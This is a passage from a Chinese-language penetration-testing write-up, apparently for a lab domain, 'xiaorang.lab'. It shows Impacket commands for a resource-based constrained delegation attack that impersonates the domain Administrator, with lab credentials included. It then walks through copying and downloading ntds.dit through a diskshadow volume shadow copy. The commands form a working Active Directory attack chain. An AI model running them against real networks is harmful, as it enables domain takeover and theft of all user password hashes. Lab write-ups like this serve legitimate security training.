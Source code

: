 addcomputer

```bash
addcomputer.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -dc-host xiaorang.lab -computer-name 'TEST$' -computer-pass 'P@ssw0rd'
```

rbcd

```
rbcd.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -action write -delegate-to 'WIN-DC$' -delegate-from 'TEST$'
```

getst

```bash
getST.py xiaorang.lab/'TEST$':'P@ssw0rd' -spn cifs/WIN-DC.xiaorang.lab -impersonate Administrator -dc-ip 172.22.13.6
```

### 卷影拷贝获取ntds

有备份(SeBackupPrivilege) 以及还原文件或目录(SeRestorePrivilege)的权限，可以卷影拷贝然后读ntds

Ntds.dit包括但不限于有关域用户、组和组成员身份和凭据信息、GPP等信息。它包括域中所有用户的密码哈希值，为了进一步保护密码哈希值，使用存储在SYSTEM注册表配置单元中的密钥对这些哈希值进行加密。

而在非域环境也就是在工作组环境中，用户的密码等信息存储在SAM文件，想要破解SAM文件与Ntds.dit文件都需要拥有一个System文件。和SAM文件一样，Ntds.dit是默认被Windows系统锁定的。

本地创一个raj.dsh，写入

```bash
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

接着用unix2dos raj.dsh转化格式

然后切换到C目录，然后创一个test文件夹切换过去(不然后面会没权限)，把本地的raj.dsh上传上去

```bash
mkdir test
cd test
upload raj.dsh
```

卷影拷贝

```bash
diskshadow /s raj.dsh
```

复制到到当前目录，也就是我们创建的这个test目录

```bash
RoboCopy /b z:\windows\ntds . ntds.dit
download ntds.dit
```

